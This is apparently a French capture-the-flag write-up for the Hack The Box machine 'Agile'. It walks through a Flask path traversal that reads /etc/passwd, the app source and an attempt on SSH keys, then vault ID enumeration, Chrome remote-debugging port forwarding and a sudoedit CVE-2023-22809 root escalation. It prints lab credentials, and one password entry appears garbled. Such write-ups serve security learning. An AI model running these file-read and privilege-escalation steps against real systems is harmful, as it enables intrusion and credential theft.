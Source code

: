 # Agile - Medium

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-08 17:12 EST
Nmap scan report for 10.10.11.203
Host is up (0.022s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.98 seconds
```

On va donc sur superpass.htb, on le rajoute à notre /etc/hosts, on lance un gobuster en tâche de fond ainsi qu’un sqlmap sur la page de login

```bash
[CRITICAL] all tested parameters do not appear to be injectable.
```

On teste aussi sur le register

```bash
[CRITICAL] all tested parameters do not appear to be injectable
```

On essaye alors à la création de mdp sur le site:

```bash
CRITICAL] all tested parameters do not appear to be injectable
```

Gobuster:

```bash
/download             (Status: 302) [Size: 249] [--> /account/login?next=%2Fdownload]
/static               (Status: 301) [Size: 178] [--> http://superpass.htb/static/]   
/vault                (Status: 302) [Size: 243] [--> /account/login?next=%2Fvault]
```

Quand on va sur [http://superpass.htb/download](http://superpass.htb/download) on tombe sur un file not found error de flask:

```bash
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/None'
```

```python
def download(): [Open an interactive python shell in this frame] 

    r = flask.request

    fn = r.args.get('fn')

    with open(f'/tmp/{fn}', 'rb') as f:

        data = f.read()

    resp = flask.make_response(data)

    resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'

    resp.mimetype = 'text/csv'

    return resp
```

On fait alors:

```bash
http://superpass.htb/download?fn=../etc/passwd
```

Et on obtient le /etc/passwd ! Il y a edwards, corum et dev_admin

On tente alors avec plusieurs id_rsa:

```bash
http://superpass.htb/download?fn=../home/corum/.ssh/id_rsa
```

Pas possible d’avoir des fichiers, permission denied

On trouve ça dans le /etc/hosts de la machine:

```bash
127.0.0.1 localhost superpass.htb test.superpass.htb
127.0.1.1 agile
```

Il faut essayer de trouver le code source du site

On trouve l’adresse du site sur la page download en erreur:

```bash
http://superpass.htb/download?fn=../app/app/superpass/app.py
```

On trouve alors un secret: 

```bash
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

On voit aussi ça:

```bash
@blueprint.get('/vault/row/<id>')
@response(template_file='vault/partials/password_row.html')
@login_required
def get_row(id):
    password = password_service.get_password_by_id(id, current_user.id)

    return {"p": password}
```

En faisant une énumération des id on trouve ça:

```bash
hackthebox.com 0xdf 762b430d32eea2f12970
mgoblog.com 0xdf 5b133f7a6a1c180646cb
mgoblog corum 47ed1e73c955de230a1d
ticketmaster corum 9799588839ed0f98c211
agile corum sudo ssh -L 41829:localhost:41829 corum@10.10.11.203
```

Le dernier mdp fonctionne pour ssh en tant que corum ! 

Pas possible de sudo en tant que corum, on va lancer un linpeas pour essayer de récolter des infos

choses intéressantes:

```bash
/etc/systemd/system/superpass.service.bak
/app/app-testing/superpass
/etc/skel/
/usr/share/lintian/overrides/passwd
edwards  pts/0    10.10.16.2       15:59   10.00s  0.03s  0.02s mysql -u superpasstester -p
```

Cependant on voit que pas mal de process chrome tournent avec un qui a ce flag:

```bash
--remote-debugging-port=41829
```

Avec plus de recherches on trouve que :

```bash
Enable remote debugging mode over HTTP on the specified port (9222). This mode supports the functioning of the Interface Viewer and Identify tool to capture web controls, and allows for automated tests to run successfully on Google Chrome
```

On met en place un port forwarding:

```bash
ssh -L 41829:localhost:41829 corum@10.10.11.203
```

On consulte donc `chrome://inspect` et on met en place le remote debugger

On peut alors maintenant inspecter la page test.superpass.htb en local, on peut donc lire le mdp de edwards dans /vault

```bash
d07867c6267dcb5df0af
```

Par réflexe:

```bash
sudo -l 

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

On trouve ça dans config_test:

```bash
superpasstester:VUO8A2c2#3FnLq3*a9DX1U

mysql -u superpasstester -p
```

Il n’y a que les creds d’edwards dans cette database

On run linpeas à nouveau pour essayer de trouver un chemin mais rien de concret

En fait la version du sudo est vulnérable à cette CVE:

[https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc](https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc)

En executant ces commandes on devient root avec un listener:

```bash
export EDITOR="vim -- /app/venv/bin/activate"

sudo -u dev_admin sudoedit /app/config_test.json
```

La ligne qu’on rajoute sera executée en tant que root